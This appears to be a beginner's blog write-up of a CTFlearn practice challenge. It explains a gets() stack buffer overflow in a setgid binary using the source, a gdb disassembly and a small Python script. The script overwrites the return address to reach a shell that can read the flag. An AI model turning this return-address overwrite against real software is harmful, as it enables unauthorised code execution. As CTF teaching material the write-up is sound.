









Hey! So I recently made an account on [ctflearn.com](https://ctflearn.com) which is this great site that teaches you how to do CTFs and gives you practice ones you can use to learn! I've always wanted to try out a CTF, so I quickly found a fairly simple one in the binary section and tried it out. I picked one with a lot of solves because I am a complete noob haha. Let's take a look!


Here's a link to the CTF I picked: [https://ctflearn.com/challenge/391](https://ctflearn.com/challenge/391), it reads:

```
What's your favorite color? Would you like to share with me? Run the command: ssh color@104.131.79.111 -p 1001 (pw: guest) to tell me!
```



Ah, okay so it gives us a binary "color", and the source "color.c". We also have flag.txt and the Makefile for color. We don't have the permissions to read flag.txt yet. So, lets run the binary and see what happens!



Hmm, okay lets look at the makefile...

```makefile
prob = color

edit: $(prob).o
	cc -m32 $(prob).o -o $(prob)
	rm $(prob).o

install:
	@id=`id -u`; \
	if [ $$id != 0 ] ; \
	then \
		echo \*\*\* Must be root. \*\*\*; \
		exit 1; \
	fi
	
	useradd -m $(prob) 
	echo $(prob):guest | chpasswd
	useradd $(prob)_pwn
	
	cp * /home/$(prob)
	
	@echo; \
	read -p "Input flag: " flag; \
	echo $$flag > /home/$(prob)/flag.txt
	
	chown -R root:root /home/$(prob)
	chmod -R 444 /home/$(prob)
	chmod 555 /home/$(prob)
	chown root:$(prob)_pwn /home/$(prob)/$(prob)
	chmod 2555 /home/$(prob)/$(prob)
	chown root:$(prob)_pwn /home/$(prob)/flag.txt
	chmod 440 /home/$(prob)/flag.txt
  
$(prob).o: $(prob).c
	cc -c -m32 -fno-stack-protector $(prob).c
```

Woah, okay that is a huge hint! Checkout that -fno-stack-protector flag! If we look up what that no-protector flag does, this [stack-overflow answer](https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector) reads

> **"If you compile with -fstack-protector, then there will be a little more space allocated on the stack and a little more overhead on entry to and return from a function while the code sets up the checks and then actually checks whether you've overwritten the stack while in the function."**

So they purposely disabled the stack protector in this binary for us to exploit! So now that we know this is a buffer overflow attack, lets take a look at color.c: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];
    
    printf("Enter your favorite color: ");
    gets(buf);
    
    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }
    
    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    
    //disable buffering.
    setbuf(stdout, NULL);
    
    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

Okay, so it looks like when vuln() returns 1, it'll open a shell under a user that has permissions to read flag.txt.. but wait, hold on, take a look at vuln().. It's using gets()! This is a classic example of a buffer overflow. gets() is notorious for being unsafe, geeksforgeeks.org explains why perfectly!



So, when we call gets() with a character array of 32 characters, what happens if we give it more than 32 characters? Let's find out! So I compiled color.c (I removed the setresuid and setresgid calls)



GCC actually warns us that gets() is dangerous, how nice of them! `char buff[32];` creates a limited character array, and gets() puts a user-supplied string (which can be bigger than 32 characters) in the buf address, smashing the stack! And look! It caught our smashed stack! Anyways, back to the OG color.c. Let's debug the binary with GDB. If you're unfamiliar with GDB it's an EXTREMELY powerful command-line tool that lets you debug and disassemble programs in real time!



Okay and now lets disassemble our vuln() subroutine and compare the disassembly to our C source! I ran "disassemble vuln" and got this disassembly:

```
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x0804858b <+0>:    push   %ebp
   0x0804858c <+1>:    mov    %esp,%ebp
   0x0804858e <+3>:    sub    $0x38,%esp
   0x08048591 <+6>:    sub    $0xc,%esp
   0x08048594 <+9>:    push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave  
   0x080485de <+83>:    ret
```

Okay, ignore everything else except our call to gets(), because thats the real vulnerability.

```
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
```

These 3 instructions are the equivalent of our `gets(buf);` call. I'll add some comments so you can better understand what each instruction does.

```
   lea    -0x30(%ebp),%eax -- loads address of buf[] into the eax register (buf is a local variable in our stackframe!) at address of -0x30 from ebp (or stack base pointer)
   push   %eax -- pushes the address of buf[] onto the stack
   call   0x8048420 <gets@plt> -- calls gets!
```

Now let's look at how the stackframe is setup. Here's a helpful graph I made to help kind of explain how this stack frame actually looks after calling into gets().


> EBP - Base Stack Pointer, also 0x30 is 48 in decimal

So our plan is pretty simple, make gets() fill the stack with 52 bytes of useless junk, and then our crafted return address. So, when gets() returns, it'll jump to our crafted return value instead! Nice! Okay, but where do we want to jump too? Let's disassemble main and try and find our test after our call to vuln()

```
   0x0804864e <+111>:    call   0x804858b <vuln>
   0x08048653 <+116>:    test   %eax,%eax
   0x08048655 <+118>:    je     0x8048689 <main+170>
   0x08048657 <+120>:    sub    $0xc,%esp
```

Alright so after our call to vuln, it tests if it returns zero, and if so, it'll jump to 0x8048689. So our crafted return value should be 0x08048657 which will skip the check and get us straight into the body of the true branch of that if statement! Alright so let's try crafting our input!

Like I said, first 52 bytes can be anything. The last 4 bytes are what really matters :) I haven't mentioned it yet, but we'll need to know if the system is little endian or big endian. Basically this is just the way that addresses are encoded in instructions, little endian means it's encoded in reverse, big endian means it's encoded normally. We can check by using "lscpu"



Yeah, so we'll have to reverse the return address in our crafted buffer! Which trust me, is way simpler than it sounds haha. Here's my python script I used to craft the input

```python
# this script crafts input buffer for the favorite color ctf challenge

uselessBuffer = "A" * 48 # can be whatever, doesn't matter
uselessEBP = "B" * 4 # can be whatever, doesn't matter lol
craftedReturn = "\x57\x86\x04\x08" # this is in little-endian format of 0x08048657

print(uselessBuffer + uselessEBP + craftedReturn)
```

The CTF maker was kind and let us create files under a folder in /tmp, so I'll make my script there and pipe the input into ./color



Alright so now that that's done all we have to do is to just pipe our crafted input into it!



and there we go!! It worked!! "flag{c0lor_0f_0verflow}". Thanks so much for reading! Hopefully I did an okay job explaining stuff haha. This was super fun and I learnt a lot about using GDB and a good refresher on stack frames. I might do more posts about CTFs in the future, but until then cya!